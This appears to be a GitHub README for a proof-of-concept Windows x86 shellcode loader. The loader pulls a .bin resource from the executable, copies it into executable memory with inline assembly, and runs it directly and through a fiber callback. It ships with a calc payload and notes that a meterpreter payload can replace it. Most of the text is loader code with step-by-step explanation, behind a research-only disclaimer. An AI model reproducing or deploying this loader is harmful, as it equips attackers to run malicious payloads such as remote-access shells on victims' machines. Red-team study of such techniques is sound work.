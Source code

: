 # Create_Thread-Inline_Assembly_x86_Fibers
This POC provides the ability to execute **x86 shellcode** in the form of a .bin file based on **x86 inline assembly and execution over fibers**.
The POC includes a calc.bin, which executes the Windows x86 calculator and can be replaced for example by a **x86 meterpreter.bin payload**.

# **Disclaimer**
The content and all code examples in this article are for research purposes only and must not be used in an unethical context! The code used is not new and I make no claim to it. Most of the code comes, as so often, from the **ired.team, thank you @spotheplanet for your brilliant work and sharing it with us all!**

# **Fibers?**
Fibers are a lightweight threading mechanism provided by Windows, which allow for cooperative multitasking within a single process. Unlike threads, which are managed by the operating system and have their own system resources (such as a separate stack and register set), fibers share the same system resources as the parent thread and switch between tasks using their own stack and register set. This makes fibers faster and more efficient than threads for certain types of tasks.

# **Description**
This code part initializes a handle (HRSRC) to a binary resource in the executable file. The FindResource() function locates the resource based on its name (IDR_CALC_BIN1) and type (CALC_BIN). The NULL parameter specifies the module instance handle, which is not needed in this case since the resource is located in the same executable file.
``` HRSRC codeResource;
    codeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"CALC_BIN");
```

These lines determine the size of the resource data in bytes, load the resource data into memory, and lock the data in place so that it can be accessed by the program.
``` DWORD codeSize;
    codeSize = SizeofResource(NULL, codeResource);
    HGLOBAL codeResourceData;
    codeResourceData = LoadResource(NULL, codeResource);
    void* codeData;
    codeData = LockResource(codeResourceData);
```

This code part allocates a region of memory that is both committed and reserved with the PAGE_EXECUTE_READWRITE protection flag. This means that the memory is both readable and writable, but also executable. The VirtualAlloc() function is used to allocate a block of memory, and the NULL parameter specifies that the block should be allocated in the process's default address space.
``` void* exec;
    exec = VirtualAlloc(NULL, codeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

This code part uses assembly language to copy the resource data to the executable memory. The mov instruction moves data from one register to another, and rep movsb copies data from the source address to the destination address.
```    
    __asm {
        mov esi, codeData;
        mov edi, exec;
        mov ecx, codeSize;
        cld;
        rep movsb;
    }
```

This code part uses assembly language to execute the code in the newly allocated memory. The mov instruction loads the address of the executable memory into the EBX register, and call ebx calls the code at that address.
```    
    __asm {
        mov ebx, exec;
        call ebx;
    }
```

This code part defines a fiber callback function called FiberStart(). The function takes a single LPVOID parameter, which is a void pointer that can be used to pass data to the function. The function casts the lpParameter parameter to a shellcode function pointer type, and then calls the shellcode function.
```// Fiber callback function
VOID CALLBACK FiberStart(LPVOID lpParameter)
{
    // Cast the parameter to the shellcode function pointer type
    typedef void(*ShellcodeFn)();
    ShellcodeFn shellcode = (ShellcodeFn)lpParameter;

    // Call the shellcode function
    shellcode();
}
```
This code part frees the executable memory that was allocated earlier using the VirtualFree() function with the MEM_RELEASE flag. The 0 parameter specifies the size of the memory region to free, and return 0 ends the program.
```    
    VirtualFree(exec, 0, MEM_RELEASE);

    return 0;
```

# **References** 

- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
- https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources
- https://www.ired.team/offensive-security/code-injection-process-injection/executing-shellcode-with-createfiber
